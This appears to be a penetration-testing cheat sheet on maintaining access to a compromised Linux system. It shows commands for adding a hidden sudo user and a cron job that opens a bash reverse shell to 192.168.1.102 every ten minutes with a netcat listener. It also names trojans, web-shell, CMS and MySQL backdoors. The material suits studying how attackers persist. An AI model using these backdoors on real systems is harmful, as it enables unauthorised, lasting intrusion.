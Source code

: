 # Persistence - Rootkit - Backdoor

So if you manage to compromise a system the system might die for whatever reason. If you have used an exploit that messes with the machine the user might want to reboot, and if the user reboots you will lose your shell.

Or, maybe the way to compromise the machine is really complicated or noisy and you don't want to go through the hassle of doing it all again. So instead you just create a backdoor that you can enter fast and easy.

Read this
https://gist.github.com/dergachev/7916152

## Create a new user

The most obvious, but not so subtle way is to just create a new user (if you are root, or someone with that privilege) 

```
adduser pelle
adduser pelle sudo
```

Now if the machine has ssh you will be able to ssh into the machine.

On some machines, older linux I think, you have to do

```
useradd pelle
passwd pelle
echo "pelle    ALL=(ALL) ALL" >> /etc/sudoers
```

## Crack the password of existing user

Get the `/etc/shadow` file and crack the passwords.


## SSH key

Add key to exisitng ssh-account.


## Cronjob NC

Create cronjob that connects to my machine every 10 minutes. Here is an example using a bash-reverse-shell. You also need to set up a netcat listener.

```
crontab -e
*/10 * * * * 0<&196;exec 196<>/dev/tcp/192.168.1.102/5556; sh <&196 >&196 2>&196
```

Listener
```
nc -lvp 5556
```

Sometimes you have to set the user
```
crontab -e
*/10 * * * * pelle /path/to/binary
```



### References:
http://kaoticcreations.blogspot.cl/2012/07/backdooring-unix-system-via-cron.html


## Binary trojan
Create a binary with malicious content inside. Run that, get meterpreter shell, run metasploit persistence.

https://www.offensive-security.com/metasploit-unleashed/binary-linux-trojan/

If you have a meterpreter shell you can easily just run persistence.

## Backdoor in webserver

You can put a cmd or shell-backdoor in a webserver.

Put backdoor on webserver, either in separate file or in hidden in another file

## Admin account to CMS

Add admin account to CMS.


## Mysql-backdoor

Mysql backdoor

## Hide backdoor in bootblock


## Nmap
https://gist.github.com/dergachev/7916152
